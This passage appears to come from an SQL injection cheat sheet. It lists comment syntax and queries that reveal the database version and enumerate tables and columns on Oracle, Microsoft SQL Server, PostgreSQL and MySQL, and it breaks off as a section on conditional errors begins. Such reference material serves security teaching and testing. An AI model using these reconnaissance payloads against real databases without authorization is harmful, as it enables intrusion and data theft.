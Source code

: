 `--comment   /*comment*/`

PostgreSQL

`--comment   /*comment*/`

MySQL

`#comment`  
`-- comment` [Note the space after the double dash]  
`/*comment*/`

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle

`SELECT banner FROM v$version   SELECT version FROM v$instance   `

Microsoft

`SELECT @@version`

PostgreSQL

`SELECT version()`

MySQL

`SELECT @@version`

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

Oracle

`SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`

Microsoft

`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `

PostgreSQL

`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `

MySQL

`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

